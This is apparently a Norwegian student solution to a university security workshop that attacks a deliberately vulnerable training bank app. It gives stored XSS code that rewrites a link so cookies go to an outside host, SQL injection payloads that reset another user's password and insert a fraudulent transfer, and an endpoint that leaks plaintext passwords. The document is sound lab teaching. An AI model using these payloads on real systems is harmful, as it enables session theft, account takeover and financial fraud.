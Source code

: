 ## IDATT2105 Full-stack applikasjonsutvikling
# Sikkherhetsworkshop

## Oppgave 1 (A3)

- Klarer du å injisere javascript inn i nettsidene? 

-  Klarer du å være så ekkel at du legger inn en betaling til sidemannen som gjør at de blir omdirigert til en ondsinnet side med innholdet av cookiene som parameter når de går inn på "konto" i sin nettbank?

## Løsning:

### Injisere javascript

Fra Jquery dokumentasjonen kan vi se at .html() metoden åpner opp siden til cross site scripting.

> By design, any jQuery constructor or method that accepts an HTML string — jQuery(), .append(), .after(), etc. — can potentially execute code. This can occur by injection of script tags or use of HTML attributes that execute code (for example, <img onload="">). Do not use these methods to insert strings obtained from untrusted sources such as URL query parameters, cookies, or form inputs. Doing so can introduce cross-site-scripting (XSS) vulnerabilities. Remove or escape any user input before adding content to the document.

Med metoden initTable så kan vi også å sende en beskrivelse med script i kan man få kode til kjøre på andre sine nettlesere.

![](2021-04-09-12-42-35.png)

Her ser vi hvordan dette kommer opp i HTMLen

![](2021-04-09-12-44-01.png)

Når en annen åpner opp siden får de dette:

![](2021-04-09-12-43-26.png)

### Betaling som omdirigerer med cookie

Vi kan bruke denne javascript koden til å forandre på hvor betaling knappen sender oss.

```javascript
document
.querySelector("#navbar > ul:nth-child(1) > li:nth-child(3) > a")
.setAttribute('href', "www.ourevilsite.com");
```

Om vi ønsker å hente ut cookie data kan vi bruke document.cookie

```javascript
.setAttribute('href', "https://www.test.com/" + document.cookie)
```

Her ser vi hvor man blir derigert etter man trykker på betaling knappen:

![](2021-04-09-12-46-55.png)

## Oppgave 2 (A1)

- Klarer du å endre passordet til en annen i gruppa ved å bruke SQLinjection? 

- Klarer du å overføre masse penger til deg selv fra en annen i gruppa ved å bruke SQL-injection? 


## Løsning

### Endre passord til en annen i gruppa

Passord blir ikke rengjort/escaped på serveren så her kan vi bruke SQLinjection.
For eksempel på metoden addUser kan vi med et spesefikt passord lage vår egen query

![](2021-04-09-12-49-00.png)

For å gjennomføre en SQL injection legger vi passordet som:
```SQL
123'); 
UPDATE user SET password = 'easyPassword' WHERE (email = '123@hotmail.com
```

Dette slutter den orginale SQL spørringen og begynner vår egen der vi forandrer på passordet. 

En parentes og apostrof brukes på slutten av meldingen så det fungerer sammen med slutten av kommandoen som står i serveren.


### Overføre masse penger til deg selv fra en annen i gruppa

Når vi ønsker å sende en transaksjon kan vi bare bytte ut UPDATE user med en INSERT INTO transaction. 

Kommandoen vi brukte er:

```SQL
123'); 
INSERT INTO transaction (from_email,to_email,text,amount,transaction_time) 
VALUES('123@hotmail.com', 'jesperfh@ntnu.no','hei hei lettjente penger',5000,'2021-01-19 03:14:07
```

Dette er resultatet:

![](2021-04-09-12-52-41.png)

## Oppgave 3 (A7 og A2)

- Klarer du å finne passordet til en på gruppa di, kun ved å bruke
nettleseren?

- Identifiser 2 grove mangler i applikasjonen.

## Løsning

### Finne passord ved å bruke nettleseren

Vi kan bruke URLen: 
`/NotSoSecureBank/webresources/user/[email here]` dette returnerer en JSON av bruker dataen.

Postman applikasjonen kan være hjelpsom her.

Her er resultatet fra GET request på URLen:

```JSON
{
    "email": "123@hotmail.com",
    "firstName": "Michal",
    "lastName": "Panasewicz",
    "password": "easyPassword"
}
```
## Grove feil

En grov feil med serveren er at **passordene er lagret i klartekst**. Passord burde aldri lagres i klar tekst, istedet burde man bruke SHA encoding med salt. Med denne metoden så kan en hacker selv etter å ha fått full tilgang til databasen ikke få passordene.

At **prepareStatement ikke er brukt på alle SQL statements**. Vi ser for getTransaction metoden at dette blir brukt, men ikke på addUser metoden. Sikkerheten av en applikasjon er bare like god som dens svakeste ledd.
